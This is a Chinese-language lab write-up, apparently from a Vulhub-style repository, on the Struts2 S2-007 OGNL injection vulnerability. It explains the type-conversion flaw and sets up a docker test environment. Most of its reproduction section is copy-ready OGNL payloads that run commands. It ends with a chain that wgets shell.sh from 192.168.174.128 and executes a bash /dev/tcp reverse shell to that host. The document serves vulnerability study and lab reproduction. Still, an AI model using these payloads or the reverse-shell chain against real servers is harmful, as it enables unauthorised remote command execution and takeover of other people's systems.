


# Struts2 S2-007 远程代码执行漏洞

## 漏洞描述

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

漏洞详情: 

- http://struts.apache.org/docs/s2-007.html

## 漏洞影响

影响版本: 2.0.0 - 2.2.3 

## 环境搭建

Vulhub执行以下命令启动s2-007测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

执行任意代码的EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将Exp传入可以利用的输入框（age），得到命令执行结果：



### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream())) + '
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream())) + '
```

成功接收反弹shell：


